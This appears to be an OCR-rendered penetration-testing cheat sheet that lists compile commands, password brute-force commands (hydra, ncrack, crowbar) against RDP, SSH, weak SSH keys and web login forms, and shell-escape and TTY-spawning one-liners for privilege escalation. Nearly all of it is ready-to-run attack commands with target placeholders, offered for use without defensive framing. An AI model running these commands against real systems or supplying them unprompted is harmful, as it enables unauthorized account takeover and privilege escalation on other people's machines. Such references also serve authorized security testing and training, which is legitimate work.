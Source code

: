 **C**

`i686-w64-mingw32-gcc hello.c -o hello32.exe      # 32-bit`

`x86_64-w64-mingw32-gcc hello.c -o hello64.exe    # 64-bit`

**C++**

`i686-w64-mingw32-g++ hello.cc -o hello32.exe     # 32-bit`

`x86_64-w64-mingw32-g++ hello.cc -o hello64.exe   # 64-bit`

#### \*Nix shit

`gcc -m32 -Wl,--hash-style=both -o`

- - - -

### Brute Force

#### RDP sessions:

`hydra -t 1 -V -f -l administrator -P passwordlist rdp://<targetIP>`

`hydra -t 1 -V -f -L /root/userlist -P /root/passwordlist rdp://<targetIP>`

#### SSH:

`hydra -f -t 4 -l <user> -P /usr/share/wordlists/rockyou.txt <targetIP> ssh`

`ncrack -p 22 --user <user> -P /usr/share/wordlists/rockyou.txt <targetIP>`

#### SSH Weak Keys:

**Debian OpenSSL Predictable PRNG** - https://github.com/g0tmi1k/debian-ssh

`crowbar -b sshkey -U userlist -k /usr/share/weak-ssh-keys/dsa/1024/ -s <targetIP>/32`

#### Web Forms:

`hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>`

`hydra -L userlist -p passwordlist <target>`

- - - -

### Miscellaneous

**Runas**

`C:\WINDOWS\system32\runas.exe /user:administrator /savecreds cmd.exe`

**Pop a Bash TTY**

`python -c 'import pty;pty.spawn("/bin/bash")'`

**Shell Escapes**

- `vi-->	:!bash`
- `vi-->	:set shell=/bin/bash:shell`
- `vi-->	:!bash`
- `vi-->	:set shell=/bin/bash:shell`
- `awk-->	awk 'BEGIN {system("/bin/bash")}'`
- `find-->	find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;`
- `perl-->	perl -e 'exec "/bin/bash";'`
- `nmap --interactive !sh`
